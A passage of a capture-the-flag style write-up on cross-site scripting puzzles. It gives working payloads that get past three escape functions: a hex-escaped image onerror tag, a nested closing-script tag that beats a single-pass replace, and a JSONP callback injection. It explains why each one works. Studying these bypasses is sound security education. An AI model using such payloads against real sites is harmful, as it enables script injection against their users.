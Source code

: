 ```
    { name : s }
  );
}
```
Solution
-----------
```
\x3c\x2f\x61\x3e\x3c\x69\x6d\x67\x20\x73\x72\x63\x3d\x22\x22\x20\x6f\x6e\x65\x72\x72\x6f\x72\x3d\x22\x61\x6c\x65\x72\x74\x28\x31\x29\x22
```
We all know that JavaScript code may consists in set of Unicode characters, but ECMAScript, the standardized version of JavaScript, [spec says](http://es5.github.io/x6.html#x6):
>ECMAScript source text is assumed to be a sequence of 16-bit code units for the purposes of this specification…
>...In string literals, regular expression literals, and identifiers, any character (code unit) may also be expressed as a Unicode escape sequence consisting of six characters, namely \u plus four hexadecimal digits...

Which means that we can represent single character by sequence of characters, for example
```
‘a’ === ‘\u0061’
```
This way `htmlEscape` function won’t be able to find encoded symbols and replace it (since it is working with string which represent code, but not with code representation itself). So it is sufficient to just encode the following string:
```
</a><img src="" onerror="alert(1)"
```
You can use this [online tool for string encoding](http://0xcc.net/jsescape/) to generate the code.

Challenge 11
-----------
```
function escape(s) {
  // Spoiler for level 2
  s = JSON.stringify(s).replace(/<\/script/gi, '');
  return '<script>console.log(' + s + ');</script>';
}
```
Solution
-----------
```
</</scriptscript><script>alert(1)</</scriptscript>
```
In order to solve this problem we have to understand [how `replace` method works](http://ecma-international.org/ecma-262/5.1/#sec-15.5.3). First it will run regex on original string and remember all the matches, then it simply replace each match/substring with `replaceValue` (which is empty string in our case). It will do it only once, so `</</scriptscript>` will became just `</script>`.

Challenge 12
-----------
```
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/);

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/\//g, '\\/');
  return "<script>" + thing[0] + "(" + json +")</script>";
}
```
Solution
-----------
```
'#',alert(1)<!--
```